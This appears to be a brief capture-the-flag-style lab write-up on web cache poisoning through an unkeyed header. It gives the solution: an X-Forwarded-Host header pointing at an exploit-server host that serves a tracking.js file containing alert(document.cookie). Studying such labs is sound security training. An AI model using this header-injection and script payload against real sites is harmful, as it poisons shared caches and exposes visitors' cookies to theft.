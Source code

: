 ```
Lab: Web cache poisoning with an unkeyed header

PRACTITIONER

This lab is vulnerable to web cache poisoning because it handles input from an unkeyed header in an unsafe way.
An unsuspecting user regularly visits the site's home page.
To solve this lab, poison the cache with a response that executes alert(document.cookie) in the visitor's browser. 
```

X-Forwarded-Host: exploit-0af500bc03f1605e8088526401d600f4.exploit-server.net/exploit

File: /exploit/resources/js/tracking.js

Body: alert(document.cookie);

---
